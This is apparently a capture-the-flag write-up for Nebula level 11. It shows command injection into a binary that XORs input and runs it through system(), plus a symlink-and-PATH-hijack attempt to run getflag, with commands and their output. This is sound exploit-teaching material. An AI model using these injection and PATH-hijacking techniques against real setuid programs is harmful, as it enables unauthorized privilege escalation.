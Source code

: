 ```
      process(mem, length);
  }

}
```
There are two ways to solve this challenge and we will use Command Injection Technique in Part 1.

Basically it has three functions
 - main() -> Start here
 - getrand() -> Randomize user input 
 - process() -> execute `buf` as shell command by system()

Test Running
```
level11@nebula:~$ /home/flag11/flag11
aaaa
flag11: invalid header

#Source Code Review
if(strncmp(line, CL, strlen(CL)) != 0) {
      errx(1, "invalid header");
  }
```
We have to use `#define CL "Content-Length: "` 

Run again
```
level11@nebula:/home/flag11$ ./flag11
Content-Length: 1\na

sh: $'\v\260u': command not found
```
Its called process() and Xored our input.
```
level11@nebula:/home/flag11$ echo -e "Content-Length: 1\nh" | ./flag11
sh: i: command not found
level11@nebula:/home/flag11$ echo -e "Content-Length: 1\nh" | ./flag11
sh: $'i\200\222': command not found
level11@nebula:/home/flag11$ echo -e "Content-Length: 1\nh" | ./flag11
sh: $'ip\221': command not found
level11@nebula:/home/flag11$ echo -e "Content-Length: 1\nh" | ./flag11
sh: $'i\360\023': command not found
level11@nebula:/home/flag11$ echo -e "Content-Length: 1\nh" | ./flag11
sh: i: command not found
```
**Symlink Method** ( Not Work )  

We noticed `h` changed to `i` for sometimes ( Symlink idea to execute getflag as flag11 user )

```
#getflag Location
/bin/getflag
#Symlink between m and getflag
cd /tmp
ln -s /bin/getflag m
#Export /tmp into PATH 
export PATH=/tmp:$PATH
```
When system() execute `m` , getflag will exeucte becasue we did symlink.
```
level11@nebula:/home/flag11$ echo -e "Content-Length: 1\nl" | ./flag11
getflag is executing on a non-flag account, this doesn't count
```
Nah! Doesn't count.
